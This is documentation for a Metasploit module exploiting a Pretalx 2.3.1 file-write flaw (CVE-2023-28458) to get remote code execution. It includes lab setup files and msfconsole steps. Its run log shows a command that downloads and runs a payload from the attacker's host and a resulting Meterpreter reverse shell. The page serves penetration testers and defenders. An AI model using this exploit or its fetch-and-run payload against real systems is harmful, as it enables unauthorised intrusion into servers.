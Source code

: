 ## Vulnerable Application

Pretalx is a web-based conference planning tool, used to manage call for paper submissions, talk selection and so on. It used by many major IT conferences - such as OffensiveCon, Hexacon,... Versions 2.3.1 and prior are vulnerable to arbitrary file read, which exploits unsanitized path in schedule export. The module requires set of credentials of Pretalx user and Pretalx needs to have existing conference, where the attacker can submit malicious proposal.

Installation steps:

1. `git clone https://github.com/pretalx/pretalx-docker.git`
1. Change content of `Dockerfile`:
```
FROM python:3.10-bookworm

RUN apt-get update && \
    apt-get install -y git gettext libmariadb-dev libpq-dev locales libmemcached-dev build-essential \
            supervisor \
            sudo \
            locales \
            --no-install-recommends && \
    apt-get clean && \
    rm -rf /var/lib/apt/lists/* && \
    dpkg-reconfigure locales && \
    locale-gen C.UTF-8 && \
    /usr/sbin/update-locale LANG=C.UTF-8 && \
    mkdir /etc/pretalx && \
    mkdir /data && \
    mkdir /public && \
    groupadd -g 999 pretalxuser && \
    useradd -r -u 999 -g pretalxuser -d /pretalx -ms /bin/bash pretalxuser && \
    echo 'pretalxuser ALL=(ALL) NOPASSWD:SETENV: /usr/bin/supervisord' >> /etc/sudoers

ENV LC_ALL=C.UTF-8


COPY pretalx/pyproject.toml /pretalx
COPY pretalx/src /pretalx/src
COPY deployment/docker/pretalx.bash /usr/local/bin/pretalx
COPY deployment/docker/supervisord.conf /etc/supervisord.conf

RUN pip3 install -U pip setuptools wheel typing && \
    pip3 install -e /pretalx/[mysql,postgres,redis] && \
    pip3 install pylibmc && \
    pip3 install gunicorn && \
    chmod -R 777 /public


RUN python3 -m pretalx makemigrations
RUN python3 -m pretalx migrate

RUN apt-get update && \
    apt-get install -y curl && \
    curl -fsSL https://deb.nodesource.com/setup_20.x | bash - && \
    apt install nodejs npm && \
    apt-get clean && \
    rm -rf /var/lib/apt/lists/* && \
    python3 -m pretalx rebuild

RUN chmod +x /usr/local/bin/pretalx && \
    cd /pretalx/src && \
    rm -f pretalx.cfg && \
    chown -R pretalxuser:pretalxuser /pretalx /data /public && \
    rm -f /pretalx/src/data/.secret && \
    cat /public/static/CACHE/css/main.* >> /pretalx/src/static.dist/common/scss/uncompressed.css && \ 
    cat /public/static/CACHE/css/main.* >> /pretalx/src/pretalx/static/common/scss/uncompressed.css

USER pretalxuser
VOLUME ["/etc/pretalx", "/data", "/public"]
EXPOSE 80
ENTRYPOINT ["pretalx"]
CMD ["all"]
```
1. Change content of `docker-compose.yml` to following:
```
services:
  pretalx:
    image: pretalx/standalone:v2.3.1
      # image: pretalx/dev
    # build: .
    container_name: pretalx
    restart: unless-stopped
    depends_on:
      - redis
      - db
    environment:
      # Hint: Make sure you serve all requests for the `/static/` and `/media/` paths when debug is False. See [installation](https://docs.pretalx.org/administrator/installation/#step-7-ssl) for more information
      PRETALX_FILESYSTEM_MEDIA: /public/media
      PRETALX_FILESYSTEM_STATIC: /public/static
    ports:
      - "80:80"
    volumes:
      - ./conf/pretalx.cfg:/etc/pretalx/pretalx.cfg:ro
      - pretalx-data:/data
      - pretalx-public:/public

  db:
    image: docker.io/library/postgres:15-alpine
    container_name: pretalx-db
    restart: unless-stopped
    volumes:
      - pretalx-database:/var/lib/postgresql/data
    environment:
      POSTGRES_PASSWORD: veryunsecureplschange # same password as one that you will put in pretalx.cfg file later on
      POSTGRES_USER: pretalx
      POSTGRES_DB: pretalx

  redis:
    image: redis:latest
    container_name: pretalx-redis
    restart: unless-stopped
    volumes:
      - pretalx-redis:/data

volumes:
  pretalx-database:
  pretalx-data:
  pretalx-public:
  pretalx-redis:
```
1. `sudo docker-compose up`
1. Setup username and password - `sudo docker exec -it pretalx pretalx init`
1. Go to `orga/event/`
1. Create new conference
1. Go to `orga/event/[conference name]/schedule/rooms/`
1. Create a room
1. Go to `orga/event/[conference name]/`
1. Make conference go live
1. `sudo docker exec -u 0 -it pretalx /bin/bash`
1. Make sure you have correct right on `/data` folder, so `pretalx` user can write export there


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/pretalx_rce_cve_2023_28458`
1. Do: `set CONFERENCE_NAME [conference name]`
1. Do: `set EMAIL [user email]`
1. Do: `set PASSWORD [password]`
1. Do: `set PYTHON_VERSION [running Python version - e.g. python3.8]`
1. Do: `set RHOSTS [target IP address]`
1. Do: `run`
1. Wait for shell to be spawned by *cron* (or run Python3 as `pretalx` user)

## Options

### CONFERENCE_NAME

The slug (shortcut) name of the conference. The module requires existing conference, where an attacker can submit malicious proposal (e.g. conference-secret-2025)

### PYTHON_VERSION

The module needs to know running python version to be able to properly select a directory for malicious hook.

### EMAIL

Email of Pretalx user that can approve proposals and release schedule.

### PASSWORD

Password of Pretalx user that can approve proposals and release schedule.

## Scenarios
```
msf exploit(linux/http/pretalx_rce_cve_2023_28458) > run verbose=true 
[*] Command to run on remote host: curl -so ./SeHhGRHU http://192.168.168.128:8888/Q7JGOkCYlO14PhxIQeJRIQ;chmod +x ./SeHhGRHU;./SeHhGRHU&
[*] Fetch handler listening on 192.168.168.128:8888
[*] HTTP server started
[*] Adding resource /Q7JGOkCYlO14PhxIQeJRIQ
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected vulnerable version 2.3.1 and debug mode is enabled
[*] Registering malicious speaker and proposal
[*] Logging with credentials: martin_sutovsky@rapid7.com/kali
[*] Approving proposal
[*] Uploading resource with payload
[*] Inserts write primitve
[*] Adding proposal to schedule
[*] Releasing schedule
[*] Exporting schedule
[*] Waiting for cron to run Python under Pretalx user
[*] Client 192.168.168.146 requested /Q7JGOkCYlO14PhxIQeJRIQ
[*] Sending payload to 192.168.168.146 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3090404 bytes) to 192.168.168.146
[*] Meterpreter session 1 opened (192.168.168.128:4444 -> 192.168.168.146:48816) at 2025-08-22 15:15:28 +0200

meterpreter > sysinfo 
Computer     : 172.18.0.4
OS           : Debian 11.2 (Linux 6.8.0-60-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid 
Server username: pretalxuser

```

